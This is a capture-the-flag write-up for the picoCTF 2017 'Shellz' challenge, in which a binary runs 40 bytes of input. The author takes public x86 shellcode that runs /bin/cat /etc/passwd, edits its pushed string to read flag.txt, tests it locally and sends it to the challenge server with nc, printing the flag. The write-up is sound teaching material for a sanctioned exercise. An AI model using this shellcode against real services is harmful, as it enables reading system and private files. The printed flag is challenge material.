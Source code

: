 **Challenge name:** Shellz  
**Description:** You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:6942.  
**Hint:** There is a bunch of preexisting shellcode already out there!  
**File(s) provided:**  
- shellz (ELF 32-bit binary)
- shell.c (source code)

---
# Step 0: Recon
They've given us a binary that reads up to 40 bytes and executes it. We can solve the challenge by sending it shellcode to read the flag (assuming we can get it to fit inside 40 bytes).

# Step 1 : Find shellcode to read a file
The following shellcode reads ```/etc/passwd``` and is 43 bytes long. The size is not a problem because we need to read "flag.txt" which is 4 bytes shorter than "/etc/passwd", meaning we'll need 5 bytes less (4 bytes for the text, 1 byte for the push instruction). 
``` python
s = ''
s += "\x31\xc0"			# xorl %eax,%eax
s += "\x99" 			# cdq
s += "\x52" 			# push edx
s += "\x68\x2f\x63\x61\x74" 	# push dword 0x7461632f
s += "\x68\x2f\x62\x69\x6e" 	# push dword 0x6e69622f
s += "\x89\xe3" 		# mov ebx,esp
s += "\x52" 			# push edx
s += "\x68\x73\x73\x77\x64" 	# push dword 0x64777373
s += "\x68\x2f\x2f\x70\x61" 	# push dword 0x61702f2f
s += "\x68\x2f\x65\x74\x63"	# push dword 0x6374652f
s += "\x89\xe1" 		# mov ecx,esp
s += "\xb0\x0b" 		# mov $0xb,%al
s += "\x52" 			# push edx
s += "\x51" 			# push ecx
s += "\x53" 			# push ebx
s += "\x89\xe1" 		# mov ecx,esp
s += "\xcd\x80"  		# int 80h
```
Linux/x86 - bin/cat /etc/passwd - 43 bytes  
Source: http://shell-storm.org/shellcode/files/shellcode-571.php

# Step 2: Inspect the shellcode
First, we need to find where the file is specified. This is the relevant part:
``` python
s += "\x68\x73\x73\x77\x64" 	# push dword 0x64777373
s += "\x68\x2f\x2f\x70\x61" 	# push dword 0x61702f2f
s += "\x68\x2f\x65\x74\x63"	# push dword 0x6374652f
```
The first byte (```\x68```) for each of these lines is for the push instruction; the rest 4 bytes are the data being pushed.

Data:
```
73737764  
2f2f7061  
2f657463  
```
ASCII hex decode:
```
sswd  
//pa  
/etc  
```
I'm not sure why you need 2 slashes, but it won't matter because we don't need slashes anyway.

# Step 3: Edit the shellcode
Based on the example above, we want to encode the following:
```
.txt  
flag  
```
ASCII hex encoded:
```
2E747874  
666C6167  
```
The relevant lines of the shellcode become (don't forget the instruction byte):
``` python
s += "\x68\x2e\x74\x78\x74" 	# push dword ".txt"
s += "\x68\x66\x6c\x61\x67"	# push dword "flag"
```

# Step 4: Test locally
Create a ```flag.txt``` file with some test data inside.
Copy the shellcode into a python file to print it, then pass that output to the binary.

``` bash
# python shellcode.py |./shellz
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
test
```

# Step 5: Execute to get flag
```bash
# python shellcode.py | nc shell2017.picoctf.com 6942
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
4effa67d6909029fd3cc45600f024e3f
```

